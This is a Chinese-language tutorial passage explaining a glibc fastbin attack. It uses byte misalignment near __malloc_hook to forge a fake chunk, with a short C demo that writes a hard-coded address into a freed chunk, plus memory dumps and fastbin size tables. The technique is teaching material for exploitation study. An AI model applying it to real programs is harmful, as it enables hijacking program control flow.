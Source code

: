 ## 演示

**在这个例子，我们使用字节错位来实现直接分配 fastbin 到<u>malloc_hook</u>的位置，相当于覆盖_malloc_hook来控制程序流程。**

```c
int main(void){
    void *chunk1;
    void *chunk_a;
    chunk1=malloc(0x60);
    free(chunk1);
    *(long long *)chunk1=0x7ffff7dd1b05;
    malloc(0x60);
    chunk_a=malloc(0x60);
    return 0;
}
```

这里的0x7ffff7dd1b05是我根据本机的情况得出的值，这个值是怎么获得的呢？首先我们要观察欲写入地址附近是否存在可以字节错位的情况。

```C
0x7ffff7dd1ad0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ad8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ae0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ae8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1af0 0x60 0x2 0xdd 0xf7 0xff 0x7f 0x0 0x0
0x7ffff7dd1af8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1b00 0x20 0x2e 0xa9 0xf7 0xff 0x7f 0x0 0x0
0x7ffff7dd1b08 0x0  0x2a 0xa9 0xf7 0xff 0x7f 0x0 0x0
0x7ffff7dd1b10 <__malloc_hook>: 0x30    0x28    0xa9    0xf7    0xff    0x7f    0x0 0x0
```

0x7ffff7dd1b10 是我们想要控制的 __malloc_hook 的地址，于是我们向上寻找是否可以错位出一个合法的size域。因为这个程序是 64 位的，因此 fastbin 的范围为32字节到128字节(0x20-0x80)，如下：

```
//这里的size指用户区域，因此要小2倍SIZE_SZ
Fastbins[idx=0, size=0x10] 
Fastbins[idx=1, size=0x20] 
Fastbins[idx=2, size=0x30] 
Fastbins[idx=3, size=0x40] 
Fastbins[idx=4, size=0x50] 
Fastbins[idx=5, size=0x60] 
Fastbins[idx=6, size=0x70] 
```

通过观察发现 0x7ffff7dd1af5 处可以现实错位构造出一个0x000000000000007f

```
0x7ffff7dd1af0 0x60 0x2 0xdd 0xf7 0xff 0x7f 0x0 0x0
0x7ffff7dd1af8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0

0x7ffff7dd1af5 <_IO_wide_data_0+309>:   0x000000000000007f
```

因为 0x7f 在计算 fastbin index 时，是属于 index 5 的，即 chunk 大小为 0x70 的。
